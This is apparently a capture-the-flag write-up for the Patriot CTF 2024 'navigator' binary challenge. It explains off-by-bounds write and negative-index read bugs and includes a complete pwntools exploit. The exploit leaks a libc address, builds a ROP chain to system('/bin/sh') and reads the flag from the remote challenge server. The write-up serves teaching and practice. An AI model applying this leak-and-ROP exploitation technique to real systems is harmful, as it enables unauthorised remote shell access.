



## pwn/navigator

Welcome to navigator! You can change stuff, view stuff and THAT'S IT.  
`nc chal.competitivecyber.club 8887`

**Given:** `navigator` `Dockerfile`

## Analysis

The given file `navigator` is a 64-bit ELF executable.
```bash
ramenhost@ctf$ checksec --file navigator 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/navigator/navigator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
All protections are enabled. Not a good news for us!

The program has three options:
1. Set Pin
2. View Pin
3. Quit



The Ghidra decompilation of some functions of interest.




`setPin` stores the input character in a global array. The `viewPin` function reads the character from the global array and prints it. The main function calls these functions based on the user input.

## Solution
The vulnerability lies in the bounds check of both `setPin` and `viewPin` functions. 

The global array size is 328 bytes.   
The bounds check done by `setPin`  
```c
  if (iVar1 < 0x321) { // 0x321 = 801
    printf("Pin character >> ");
    fgets(local_28,0x10,stdin);
    *(char *)(iVar1 + param_1) = local_28[0];
  }
```
We can see that `setPin` clearly has wrong bounds check using which we can do arbitary write of one character at a time to any stack address beyond the global array. Using this, we can overwrite the return address of `main` function to execute a ROP chain. To fully exploit this, we need to return to `libc` function, for which we don't know the address because of ASLR. 

The bounds check done by `viewPin`  
```c
  if (0x13f < local_30) { // 0x13f = 319
    local_30 = 0x13f;
  }
```
While the `viewPin` bounds check looks correct at first, it doesn't take negative values into account. We can use this to leak any stack address (that is lower than the global array).

We can leak any glibc address from stack using `viewPin` function and then calculate the address of `libc` base. Then we can call `system('/bin/sh')` using ROP chain by exploiting `setPin`.

### exploit.py
```python
from pwn import *

context.log_level = 'info'
context.terminal = ['tmux', 'splitw', '-v']
context.arch = 'x86_64'

target = './navigator'
target_elf = ELF(target)
# libc = ELF('./libc.so.6')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# io = process(target)
# io = gdb.debug(target, gdbscript='''
# b *main+250
# continue
# ''')
io = remote('chal.competitivecyber.club', 8887)

# setPin to bring some glibc function addresses to stack
info(io.recvrepeat(1))
io.sendline(b'1')
io.sendline(b'5')
io.sendline(b'A')

# viewPin can leak one byte at a time. Leak 8 bytes from stack offset -129 (calcuated from gdb)
val = bytearray()
for i in range(8):
    info(io.recvrepeat(1))
    io.sendline(b'2')
    io.sendline(b'-' + str(129 + i).encode())
    info(io.recvuntil(b'Pin:'))
    io.recvline()
    val += io.recvline().strip()

libc.address = int.from_bytes(val, 'big') - 276052
info(f'libc.address: {hex(libc.address)}')

# ROP chain to call system('/bin/sh')
rop = ROP([libc])
rop.raw(rop.find_gadget(['ret'])) # padding for stack 16-byte alignment
rop.system(next(libc.search(b'/bin/sh\x00')))
info(rop.dump())
rop_chain = rop.chain()

# setPin to write ROP chain to return address at stack offset 344 (calculated from gdb)
i = 0
for p in bytearray(rop_chain):
    info(io.recvrepeat(1))
    io.sendline(b'1')
    io.sendline(str(344 + i).encode())
    i = i + 1
    io.sendline(bytes([p]))

# quit menu to trigger ROP chain
io.sendline(b'3')

info(io.recvrepeat(1))
io.sendline(b'cat flag.txt')
info(io.recvrepeat(1))
io.close()
```
## Flag
```bash
ramenhost@ctf$ python3 exploit.py 
[*] '/home/ramenhost/Git/ctf-writeups/patriot-ctf-2024/pwn/navigator/navigator'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.competitivecyber.club on port 8887: Done
[*] pctf{th4t_w45_ann0ying_014d0a7cb3d}
[*] Closed connection to chal.competitivecyber.club port 8887
```